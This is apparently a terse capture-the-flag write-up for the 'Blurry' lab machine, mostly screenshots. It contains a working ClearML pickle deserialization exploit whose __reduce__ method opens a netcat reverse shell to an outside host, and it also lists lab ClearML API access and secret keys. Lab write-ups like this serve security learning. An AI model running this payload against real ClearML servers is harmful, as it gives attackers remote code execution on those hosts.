 ```yaml
---
description: Linux | medium
---
```


# Blurry

10.129.3.154

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

clef api : HGLEWII6D6U1Q245DJQL

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

```python
import os
from clearml import Task
import base64
import time

task = Task.init(project_name='Black Swan', task_name='pickle', tags=["review"], task_type=Task.TaskTypes.data_processing)

class Pickle:
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.111 4444 >/tmp/f"
        return os.system, (cmd,)

rng_name = base64.b64encode(str(time.time()).encode()).decode()
task.upload_artifact(name=rng_name, artifact_object=Pickle())

task.execute_remotely(queue_name='default')
```

```
api {
    # Notice: 'host' is the api server (default port 8008), not the web server.
    api_server: http://api.blurry.htb
    web_server: http://app.blurry.htb
    files_server: http://files.blurry.htb
    # Credentials are generated using the webapp, http://10.129.230.94:8080/settings
    # Override with os environment: CLEARML_API_ACCESS_KEY / CLEARML_API_SECRET_KEY
    credentials {"access_key": "8TL83TDO2YXCQ4789DE4", "secret_key": "peFoHVcUTMA0JdhOHNoQTioLSmtbKEiAVxZXJSHku4LyHlOTUB"}
}
sdk {

```
